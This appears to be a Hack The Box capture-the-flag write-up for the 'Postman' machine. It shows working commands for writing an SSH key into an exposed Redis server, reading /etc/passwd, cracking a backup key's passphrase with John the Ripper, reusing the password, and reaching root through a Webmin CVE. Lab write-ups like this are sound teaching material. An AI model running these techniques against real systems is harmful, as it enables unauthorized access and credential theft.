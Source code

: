 ```yaml
---
layout: writeup
title: Postman
description: HTB writeup
logo: /assets/img/writeups/postman_logo.png
show-avatar: false
permalink: /writeups/postman.html
OS: Linux
difficulty: Easy
release: 2 Nov 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/114053">TheCyberGeek</a>
cleared: 9 Nov 2019
publiished: 2019 11 09
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  8 21:44:03 2019 as: nmap -sC -sV -p- -Pn -oN nmapscan.txt 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.088s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  8 21:50:09 2019 -- 1 IP address (1 host up) scanned in 366.53 seconds

```

We see a number of open ports. Checking what is on port 80 with our browser doesn't show us much of interest

![Cyber Geek](/assets/img/writeups/postman_webpage.png)

Checking searchsploit for webmin 1.910 we see that there is an RCE with root privileges as detailed by CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/

however that requires a credentialed user, which we don't have. If we turn our attention to the redis instance running on port 6379 tho, we see that if we can access it, it is vulnerable to this exploit

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

So lets check

```
root@kali:~/HTB/Boxes/Postman# telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
echo "HILBERT"
$7
HILBERT
```

Bingo! So our plan now is to try and write our SSH key onto the server and login. We need to add some whitespace to our key and then write that into Redis. We can use **redis-cli** for this. 

```
root@kali:~/HTB/Boxes/Postman# (echo -e "\n\n"; cat id_rsa_.pub echo -e "\n\n") > key.txt
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/HTB/Boxes/Postman# cat key.txt | redis-cli -h 10.10.10.160 -x set crackit
```

now we can logon to redis, and try and write our SSH key into a users .ssh folder. The default folder for redis is /var/lib/redis so if a .ssh folder has been created for redis user we can write to that.

```
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

looks like it has bee. Now lets SSH in

```
root@kali:~/HTB/Boxes/Postman# ssh -i id_rsa_ redis@10.10.10.160
<...>
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$                
```

First lets cat the /etc/passwd file so we can get the other users

```
redis@Postman:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<...>
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

 We don't have write access to /home/Matt/.ssh unfortunately so we can't duplicate our previous exploit to gain access to user Matt. Enumerating the machine further we find a backup of an SSH key.

```
redis@Postman:~$ ls /opt
id_rsa.bak
```

Lets copy this, and see if we can crack the password on it. To do this we will use a program called John the Ripper. First we need to convert the key into a suitable format. For this we will use **ssh2john**, then we can run john the ripper on it with a wordlist to try and crack it.

```
root@kali:~/HTB/Boxes/Postman# python /usr/share/john/ssh2john.py id_rsa.bak > id_rsa.hash
root@kali:~/HTB/Boxes/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:12 DONE (2019-11-12 00:48) 0.07710g/s 1105Kp/s 1105Kc/s 1105KC/sa6_123..*7¡Vamos!
Session completed
```

We cracked the password, which is "computer2008". Let's see if we can login to Matt with this

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ cat /home/Matt/user.txt
517adXXXXXXXXXXXXXXXXXX08a2f3c
```

Success! We will also find that we can login to webmin on port 10000 with Matt:computer2008

<h3 align="center">On To Root</h3>

So now with valid credentials we can use CVE-2019-12840 which has a metasploit module. Make sure to set SSL to true as port 10000 is using https

![root](/assets/img/writeups/postman_root.png)

we can now access the root.txt flag.
